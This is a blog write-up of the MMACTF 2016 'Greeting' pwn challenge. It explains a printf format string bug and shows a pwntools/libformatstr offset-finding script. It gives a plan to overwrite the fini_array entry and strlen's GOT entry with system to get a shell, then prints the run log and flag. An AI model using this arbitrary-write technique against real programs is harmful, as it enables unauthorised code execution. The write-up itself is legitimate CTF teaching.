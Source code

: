 Title: MMACTF 2016 - Greeting
Date: 2016-09-05 19:30
Category: CTF
Tags: ctf, mmactf2016, pwn
Slug: mmactf-2016-greeting
Authors: wumb0

Challenge description:
> Pwn  
> Host : pwn2.chal.ctf.westerns.tokyo  
> Port : 16317

## Reversing and Finding the Bug

Reversing with radare2:
<script type="text/javascript" src="https://asciinema.org/a/70ae59xl59b2fksh8uk0gvfv4.js" id="asciicast-70ae59xl59b2fksh8uk0gvfv4" async></script>

Looks like another textbook format string vulnerability because the user buffer is put into `sprintf` and then straight into `printf`. This time I had to actually do the work of getting code execution because the flag was not loaded onto the stack.

## Running the binary
I wanted to see the bug in action so I loaded up my Ubuntu VM using vagrant and checked it out:

```shell
→ ./greeting
Hello, I'm nao!
Please tell me your name... %08x
Nice to meet you, 080487d0 :)
```

Neat. Now for exploitation.

## Background
For information on `printf` and a more basic format string exploit, check out the post I did on the [judgement]({static}/posts/MMACTF/judgement.md) pwn challenge also from this CTF. In addition to having positional arguments, `printf` also has a cool feature where you can write the number of bytes that have been printed so far to a variable. This feature is what makes format string vulnerabilities so dangerous. If you can exploit one, you can get arbitrary write. 

Passing `%hn` to `printf` in the format string will write up to a half word value of the number of characters written so far. Combining this with positional arguments allows for half a word at a time to be written to anywhere. So this is bad.

If you are interested in learning more about how format string vulnerabilities work then check out [this paper](https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf)

## Exploitation
I decided to use [libformatstr](https://github.com/hellman/libformatstr) for this because I have never used it before and it seemed useful so I didn't have to craft the buffer manually. 

The payload function takes two arguments: an argument number and a padding number. The offset number is the word distance in memory away from your input and the padding is the number of bytes your input needs to be padded for the addresses you enter to be word aligned. Libformatstr can be used to determine these numbers:

```python
from pwn import *
from libformatstr import *

e = ELF("./greeting")
r = process(e.path)

r.sendline(make_pattern(0x40))
r.recvuntil("you, ")
res = r.recv()
print(res)
argnum, padding = guess_argnum(res, 0x40)
log.info("argnum: {}, padding: {}".format(argnum, padding))
```

Running this resulted in an output of `argnum: 12, padding: 2`. There was one other bit that needed to be changed as well. Since "Nice to meet you, " was being prepended to my input I had to set an additional argument when setting up the format string exploit called `start_num`. 

Armed with the argument number, padding, and start number I was ready to try and overwrite some values. The issue I ran into was that there are no function calls after the call to `printf` in main. I though of trying to overwrite a destructor (dtors), but there were none. I came across a way to overwrite the `fini` section of a binary to execute a function when the program was supposed to be quitting. I could not find much documentation on exactly what I needed to overwrite to make this work so I just used `objdump` and `grep` to find the symbols with `fini` in the name:

```
→ objdump -t greeting | grep fini
08048780 l    d  .fini  00000000              .fini
08049934 l    d  .fini_array    00000000              .fini_array
08049934 l     O .fini_array    00000000              __do_global_dtors_aux_fini_array_entry
08048740 g     F .text  00000002              __libc_csu_fini
08048780 g     F .fini  00000000              _fini
```

Five choices. Through trial and error I determined that overwriting whatever was at `__do_global_dtors_aux_fini_array_entry` gave me control of the program. 

My plan of attack became the following:  
1. Overwrite `__do_global_dtors_aux_fini_array_entry` with `main`  
2. Overwrite the GOT entry for `strlen` with `system`  
3. Write the full format string line into the program  
4. When main executes the second time, write `/bin/sh` so that the call to `strlen` in the `getnline` function executes `system("/bin/sh")` and gives me a shell!

I wrote the following script to do the above:
<script src="https://gist.github.com/wumb0/1c3d32efbc3f45aa6d724ce46b7efbdd.js"></script>

Running it resulted in the flag :)
```
→ python greet2.py REMOTE
[*] '/home/vagrant/CTF/tokyo/greeting'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE
[x] Opening connection to pwn2.chal.ctf.westerns.tokyo on port 16317
[x] Opening connection to pwn2.chal.ctf.westerns.tokyo on port 16317: Trying 40.74.112.206
[+] Opening connection to pwn2.chal.ctf.westerns.tokyo on port 16317: Done
[+] Wrote system onto strlen and main onto fini... trying shell
[+] got shell
[+] Flag: TWCTF{51mpl3_FSB_r3wr173_4nyw4r3}
[*] Closed connection to pwn2.chal.ctf.westerns.tokyo port 16317
```

W00t!  
**TWCTF{51mpl3_FSB_r3wr173_4nyw4r3}**
